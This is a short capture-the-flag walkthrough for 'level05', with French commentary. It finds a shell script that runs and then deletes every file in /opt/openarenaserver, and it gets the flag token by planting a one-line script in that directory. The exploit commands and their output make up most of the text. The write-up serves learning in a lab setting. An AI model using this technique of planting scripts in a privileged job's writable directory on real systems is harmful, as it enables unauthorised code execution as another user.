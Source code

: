 # level05

```bash
$ find / -user flag05 2> /dev/null | grep -v proc
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver

$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Ce script shell est conçu pour exécuter chaque fichier situé dans le répertoire `/opt/openarenaserver/` et les supprimer ensuite.

```bash
$ echo "getflag > /tmp/flag05" > /opt/openarenaserver/script.sh
$ ls /opt/openarenaserver/
script.sh
# wait for the script to run automatically
$ ls /opt/openarenaserver/
# nothing, so the script has been executed
$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

